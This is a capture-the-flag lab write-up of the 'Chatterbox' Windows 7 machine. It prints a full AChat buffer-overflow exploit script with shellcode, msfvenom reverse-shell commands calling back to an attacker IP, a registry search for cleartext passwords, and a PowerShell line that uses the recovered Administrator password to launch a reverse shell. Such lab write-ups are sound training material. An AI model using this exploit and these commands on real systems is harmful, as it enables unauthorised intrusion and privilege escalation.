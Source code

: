 # Chatterbox (Medium)

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h40m00s, deviation: 2h53m13s, median: 5h00m00s
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-11-06T09:00:26
|_  start_date: 2022-11-06T08:17:56
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-06T04:00:23-05:00

```

Enumerated UDP ports:

```
No UDP ports are open
```

Notes:

* 135/RPC is open
* 445/SMB is open
* 9255 & 9256 look very interesting -- Public exploits? Achat chat system

## Enumeration

### Port 445 SMB

* I attemped to list the SMB shares and map them out, but I keep getting a strange error upon doing so...

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Port 9255 & 9256 AChat Chat System

<mark style="color:yellow;">Netcat Banner Grabbing Attempt</mark>:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

* I also tried to navigate to the HTTP port 9255 and 9256 but it wasn't returning results

<mark style="color:yellow;">Searchsploit</mark>:

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">36025.py Achat Remote Buffer Overflow</mark>

## Exploitation

### <mark style="color:yellow;">Achat is vulnerable to an SEH Buffer Overflow</mark>

Contents of 36025.py:

```
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
#Payload size: 512 bytes

buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"


# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.129.157.15', 9257)

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40"
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

* We need to change the command that is being executed as it is simply opening the calculator application... lol

Modified Exploit:

{% code overflow="wrap" %}
```
----SNIP----

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

----SNIP----
```
{% endcode %}

* Copy this payload and run it in Kali to generate shellcode for your attackbox
* Once generated, copy it into the exploit (replacing the existing shellcode)
* Also, be sure to change the <mark style="color:yellow;">server\_address to your target's address and change the port to 9256</mark>
* Next, start a Netcat listener on port 443
* Run the exploit with Python2 and detonate the SEH bypass BOF

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Local enumeration

* I discovered interesting internal ports with <mark style="color:red;">`netstat -ano`</mark>
  * 445
* Let's look for cleartext passwords
  * <mark style="color:red;">`reg query HKLM /f password /t REG_SZ /s`</mark>
  * <mark style="color:yellow;">DefaultPassword REG\_SZ Welcome1!</mark>
* It appears that we have some creds!
* Let's generate a reverse shell payload with Msfvenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f exe > shell.exe
```

* Start a nc listener on 443 again
* Create a new object with PowerShell

```
powershell -c "$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('Administrator', $password);Start-Process -FilePath "shell.exe" -Credential $creds"
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
